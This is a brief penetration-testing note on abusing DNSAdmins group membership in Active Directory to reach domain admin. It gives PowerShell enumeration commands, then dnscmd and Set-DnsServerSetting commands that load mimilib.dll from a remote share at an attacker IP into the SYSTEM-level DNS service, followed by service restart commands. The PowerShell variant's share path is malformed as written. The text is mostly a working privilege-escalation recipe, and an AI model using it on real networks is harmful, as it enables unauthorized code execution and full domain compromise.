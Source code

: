 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#powershell #dnscmd #sc 
- DNSAdmins group member can load arbitrary DLLs with the privilege of the process called dns.exe. dns.exe runs as SYSTEM.
- If domain controlles in also running a DNS server, it can be abused to gain domain admin.
# Enumeration
- Powerview
```powershell
Get-NetGroupMember -GroupName "DNSAdmins"
```
- Active Directory Module
```powershell
Get-ADGroupMember -Identity DNSAdmins
```
# Exploitation
- Once, a member of this group is compromised, dnscmd.exe can be used (from RSAT DNS) to load the DLL.
```powershell
dnscmd <dc> /config /serverlevelplugindll \\172.16.50.100\dll\mimilib.dll
```
- Using powershell to do the same (also requires RSAT DNS)
```powershell
$dnsettings = Get-DnsServerSetting -ComputerName <dc-name> -Verbose -All
$dnsettings.ServerLevelPluginDll = "\172.50.50.100\dll\mimilib.dll"
Set-DnsServerSetting -InputObject $dnsettings -ComputerName <dc> -Verbose
```
- Restart the DNS server
```powershell
sc \\<dc> stop dns
sc \\<dc> start dns
```


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
